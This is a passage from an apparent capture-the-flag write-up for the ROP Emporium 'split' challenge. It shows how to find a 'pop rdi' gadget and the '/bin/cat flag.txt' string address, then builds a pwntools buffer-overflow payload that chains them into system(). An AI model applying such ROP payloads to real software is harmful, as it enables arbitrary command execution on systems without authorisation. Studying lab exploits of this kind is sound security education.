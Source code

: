 `radare2` has found an address of the instruction for us and the address is `0x004007c3`
so:
`pop_rdi_address = 0x004007c3`

3. find the string `/bin/cat flag.txt` in the binary:

to do so, inside gdb we simply run `grep "/bin/cat flag.txt"`:
```
gef➤  grep "/bin/cat flag.txt"
[+] Searching '/bin/cat flag.txt' in memory
[+] In '/home/kali/CTFs-writeups/ropemporium/split/split'(0x601000-0x602000), permission=rw-
  0x601060 - 0x601071  →   "/bin/cat flag.txt"
```
- Note:
this command only run if you have [gef](https://github.com/hugsy/gef) installed and program should be running, otherwise you'll have to check `$ info proc map` to find the address range and then in gdb  `gdb> find 0xSTARTADDRESS,0xENDADDREES,"/bin/cat flag.txt"`

so:
`string_address = 0x601060`

## Writing exploit

in a file called [exploit.py](https://github.com/l0x539/CTFs-writeups/blob/master/ropemporium/split/exploit.py)

again, using [pwntools](http://docs.pwntools.com/en/stable/) on python3.

* Imports:

```python3
from pwn import process, p64
```

* Setting variables:

```python3
pop_rdi_ret  = p64(0x4007c3)    # pop rdi; ret instruction address
bin_cat_flag = p64(0x601060)    # /bin/cat flag.txt address
_system      = p64(0x40074b)    # system call address
```

* Running file:

```python3
p = process("./split")
```

* Receiving output:

```python3
print(p.recvuntil("> ").decode("latin-1"))
```

* Crafting the payload:

```python3
payload = b"A"*40
payload += pop_rdi_ret
payload += bin_cat_flag
payload += _system
```

